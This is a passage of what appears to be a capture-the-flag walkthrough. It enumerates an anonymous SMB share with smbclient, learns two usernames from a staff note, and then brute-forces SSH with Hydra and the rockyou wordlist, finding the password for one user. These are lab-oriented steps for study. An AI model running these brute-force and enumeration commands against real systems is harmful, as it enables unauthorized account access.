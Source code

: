 Let’s explore this share using the smbclient command:
```
smbclient //10.10.186.13/anonymous/ -N 

  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
```
![image](https://github.com/user-attachments/assets/d1c8208c-a783-43af-ad11-7cb7a329e22f)

#### staff.txt
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

We also here discover 2 usernames jan & kay.

Now, let’s use all the information we found during enumeration to get our initial access to the target system.



# Exploitation
### 22 SSH
- **We have 2 Username**
```
jan
kay
```

#### Perform Bruit-force attack with Hydra
```
hydra -l kay -P /usr/share/wordlists/rockyou.txt 10.10.186.13 ssh

No Password Found
```

- **Another User**
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.186.13 ssh

[22][ssh] host: 10.10.186.13   login: jan   password: armando
```
![[Pasted image 20250318003529.png]]

#### Question 4
- **User brute-forcing to find the username & password**
```
No Answer Needed
```
